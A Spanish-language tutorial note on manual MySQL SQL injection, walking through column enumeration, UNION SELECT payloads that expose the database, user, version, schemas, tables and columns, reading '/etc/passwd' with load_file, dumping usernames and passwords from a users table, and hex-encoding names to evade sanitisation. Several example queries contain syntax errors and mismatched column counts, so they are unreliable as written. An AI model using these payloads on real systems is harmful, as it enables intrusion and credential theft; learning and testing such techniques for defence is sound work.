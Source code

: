 En caso de tener una vulnerabilidad a inyecciones SQL y al inyectar algo vemos el sql, podemos empezar a enumerar las columnas de la tabla a la cual se esta consultado.

**Inyeccion basada en error**
``` sql
-- - consulta original
select * from users where id = 1;
-- - inyeccion
select * from users where id = 1 order by 4;-- -;
```

En caso de no ver el error podemos hacer unas inyecciones basadas en tiempo, en base a estas podemo determinar si es valida o no (pentesting avanzado).

Ahora volviendo al ejemplo, una vez enumerado las columnas, les podemos poder etiquetas a cada una de estar y aprobecharnos de las etiquetas para exponer informacion sensible.

``` sql
-- - numero de columnas en union select
select * from users where id = 1 union select 1,2,3,"etiqueta de prueba";-- -
-- - muestra la db en uso
select * from users where id = 1 union select 1,2,database(),"etiqueta de prueba";-- -
-- - user() : User que corre la db
-- - @@version : Version de Mysql
-- - load_file('/etc/passwd') : Incluye un archivo del sistema, solo funciona en consola, en web se tiene que aplicar una inyeccion mas avanzada

-- - Ahora como atacante nos puede interesar las demas schemas(databases)
-- - Aplicando: select schema_name from information_schema.schemata;
select * from users where id = 1 union select 1,2,schema_name,4 from information_schema.schemata;-- -

-- - Extraemos las tablas de un schema
-- - Aplicando: select table_name from information_schema.tables where table_schema = "db_name";
select * from users where id = 1 union select 1,2,schema_name,4 from information_schema.tables table_schema = "db_name";-- -

-- - Extraccion de columnas
-- - Con el limit indicamos la vizualizacion de la primer columna.
select * from users where id = 1 union select 1,column_name,2,3,4 from information_schema.columns where table_schema = "db_name" and table_name="users" limit 1,1;-- -

-- - Extraccion de datos
-- - Ya conocemos la db, tabla y las columnas asi que realizamos una sql normal
select * from users where id = 1 union select 1,concat(username,:,password),3,4 from colegio.users;-- -

```

Nota:
Podemos llamar una db_name en hexadecimal para evadir una sanitizacion